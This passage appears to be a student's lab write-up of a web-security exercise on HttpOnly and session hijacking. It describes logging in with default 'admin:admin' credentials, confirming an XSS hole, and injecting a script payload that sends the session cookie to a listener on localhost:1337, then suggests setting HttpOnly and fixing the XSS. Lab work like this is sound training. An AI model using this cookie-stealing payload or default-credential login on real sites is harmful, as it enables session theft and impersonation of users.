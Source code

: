 I guess we had it before (No 32)



### Implementation:



## Task 36: HttpOnly (session hijacking)

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.
Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.



### Implementation:

First I tried "admin:admin" and could login. Then there was a text box and I tried to make XSS.



![](https://i.imgur.com/8SV4hvp.png)
    



It has XSS vulnerability.
Then I looked through the session info:



![](https://i.imgur.com/fs074o3.png)



Because HttpOnly is not false, it doesn't prevent client-side scripts from accessing data. So:



![](https://i.imgur.com/kGG7d7v.png)



Lets start a server and create a script that will send the session cookie to our malicious server:

```
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```



![](https://i.imgur.com/XMfW6mW.png)
    

And done. Attacker can use this value as his cookie and impersonate the real user.

I think if the HttpOnly value turn to true, this can mitigated.
Also, they should do something for their XSS vulnerability.
